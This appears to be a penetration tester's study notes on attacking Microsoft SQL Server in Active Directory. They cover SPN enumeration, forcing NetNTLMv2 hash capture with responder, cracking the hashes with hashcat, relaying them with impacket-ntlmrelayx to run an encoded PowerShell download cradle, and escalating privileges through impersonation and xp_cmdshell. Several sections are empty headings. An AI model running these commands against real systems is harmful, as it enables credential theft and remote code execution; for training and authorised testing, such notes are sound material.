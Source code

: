 ## Microsoft SQL attacks

MSSQL in AD have SPN. To query the DC:

#AD #SPN #cmd
``` cmd
setspn -T corp1 -Q MSSQLSvc/*
```

#useful-script #ps1
```powershell
. .\GetUserSPNs.ps1
```

### Authentication in MSSQL

In AD this is handled by Kerberos, and the mapping between the user and dbo is done. If no mapping, the user will be guest. To login mapped to sa will have sysadmin role. 

Domain Users are member of Builtin Users group which has access by default.

For code refer to the mssql-exp VS project.

### UNC Path Injection 

The idea is to force the MSSQL to connect to our SMB share so we capture NETNTLMv2 hash for cracking, later we will also learn to relay the hash.
We must provide the UNC path with IP, not hostname as Windows would automatically switch from Kerberos to NetNTLM. 

Run the mssql-exp binary, but start the responder first on Kali to get the hash.
#NetNTLM #responder
``` bash
sudo responder -I tun0
```

For cracking.
#hashcat #cracking
``` bash
sudo hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```


### Relay NetNTLM hash

To not crack the hash we can relay it - the password may be strong. If the user whose hash we relay is local admin, we can get code exec. It is only possible if SMB signing not enabled (enabled by default on DC, but not on the standard Windows Servers).

To start the relay attack we give the encoded ps1 with download cradle:
#encoding #impacket
``` bash
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.120.6 -c 'powershell -enc <encoded_download_cradle>'
```

### MSSQL Priv escalation

The goal is to obtain access to the user who is sysadmin in MSSQL - we can use the AD priv esc. We can also do impersonation with the usage of EXECUTE AS - only certain users can use impersonation; not every user has it, there must be misconfig. We can Impersonate on user and login (EXECUTE AS USER/LOGIN). We can enumerate which account allows impersonation, but we cannot enumerate who can impersonate them.
For execute as USER we must do it on the msdb as it is TRUSTWORTHY with user dbo as he has sa.

For Custom Assemblies we can use the CREATE ASSEMBLY procedure, but that also requires TRUSTWORTHY db. We import managed dll as an object and execute. To hex encode assembly we use the follow:
#ps1 #encoding #hex #assembly

#### Linked SQL Servers for Priv Escalation





### Getting code execution 

To obtain code execution we can use: xp_cmdshell, sp_oacreate (Ole Automation Procedure) or through loading custom assembly.







